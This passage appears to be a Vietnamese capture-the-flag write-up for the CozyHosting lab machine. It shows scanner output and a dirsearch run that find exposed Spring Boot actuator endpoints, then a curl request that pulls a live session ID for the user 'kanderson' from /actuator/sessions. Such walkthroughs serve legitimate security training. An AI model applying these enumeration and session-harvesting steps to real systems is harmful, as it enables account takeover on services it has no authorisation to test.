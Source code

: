 ```python 
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://cozyhosting.htb
[http-missing-security-headers:strict-transport-security] [http] [info] http://cozyhosting.htb
[http-missing-security-headers:permissions-policy] [http] [info] http://cozyhosting.htb
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://cozyhosting.htb
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://cozyhosting.htb
[http-missing-security-headers:content-security-policy] [http] [info] http://cozyhosting.htb
[http-missing-security-headers:referrer-policy] [http] [info] http://cozyhosting.htb
[http-missing-security-headers:clear-site-data] [http] [info] http://cozyhosting.htb
[springboot-mappings] [http] [low] http://cozyhosting.htb/actuator/mappings
[openssh-detect] [tcp] [info] cozyhosting.htb:22 [SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.3]
[spring-detect] [http] [info] http://cozyhosting.htb/error
[waf-detect:nginxgeneric] [http] [info] http://cozyhosting.htb/
[springboot-beans] [http] [low] http://cozyhosting.htb/actuator/beans
```

Để ý có dir là *actuator*, đây là Spring Boot. 

Sử dụng dirsearch 

```python 
┌──(root㉿kali)-[/home/kali/jexboss]
└─# dirsearch -u http://cozyhosting.htb -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt              

  _|. _ _  _  _  _ _|_    v0.4.2                                                                                             
 (_||| _) (/_(_|| (_| )                                                                                                      
                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 112
Output File: /root/.dirsearch/reports/cozyhosting.htb/_23-10-07_06-37-28.txt
Error Log: /root/.dirsearch/logs/errors-23-10-07_06-37-28.log
Target: http://cozyhosting.htb/
[06:37:29] Starting: 
[06:37:29] 200 -  634B  - /actuator                                         
[06:37:29] 200 -    5KB - /actuator/env                                     
[06:37:29] 200 -  487B  - /actuator/env/path
[06:37:29] 200 -  487B  - /actuator/env/home                                
[06:37:30] 200 -  487B  - /actuator/env/lang                                
[06:37:30] 200 -   15B  - /actuator/health                                  
[06:37:30] 200 -   10KB - /actuator/mappings                                
[06:37:30] 200 -   98B  - /actuator/sessions                                
[06:37:30] 200 -  124KB - /actuator/beans                                               Task Completed            
```

Tôi có */actuator/sessions*

```python
┌──(root㉿kali)-[/home/kali/jexboss]
└─# curl http://cozyhosting.htb/actuator/sessions
{"6D3BD4BCE55E6178BBDFA87EEB570468":"kanderson"}     
```
